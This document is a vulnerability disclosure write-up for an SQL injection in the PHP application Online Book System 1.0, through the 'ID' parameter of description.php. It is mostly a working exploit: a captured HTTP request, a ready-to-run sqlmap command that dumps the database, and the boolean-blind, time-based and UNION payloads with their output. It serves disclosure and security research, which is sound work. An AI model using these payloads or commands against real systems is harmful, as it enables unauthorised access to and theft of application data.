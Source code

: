# Online Book System- SQL Injection - 4
+ **Exploit Title:** Online Book System- SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/online-book-system-in-php-css-js-and-mysql-free-download/
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Book System 1.0 allows SQL Injection via the 'ID' parameter at "/BookStore-master%201/description.php?ID=ENT-1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/BookStore-master%201/description.php?ID=ENT-1"
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /BookStore-master%201/description.php?ID=ENT-1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'ID' parameter to dump the database.
```
sqlmap -r r.txt -p ID --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: ID (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ID=ENT-1' AND 8011=8011-- upRB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ID=ENT-1' AND (SELECT 4981 FROM (SELECT(SLEEP(5)))RGPP)-- bZro

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: ID=ENT-1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71716b7171,0x4174687452666d7070765279634b44754e4861526e5857506b716265727a7145524b4a41746c584e,0x7170717171),NULL,NULL,NULL-- -
---
[11:21:07] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:21:07] [INFO] fetching current database
current database: 'u385439067_store'

```
+ current database: `u385439067_store`

![Ekran görüntüsü 2024-03-26 182932](https://github.com/BurakSevben/CVEs/assets/117217689/07d64a4b-afa8-42a0-98da-ba0879855c21)
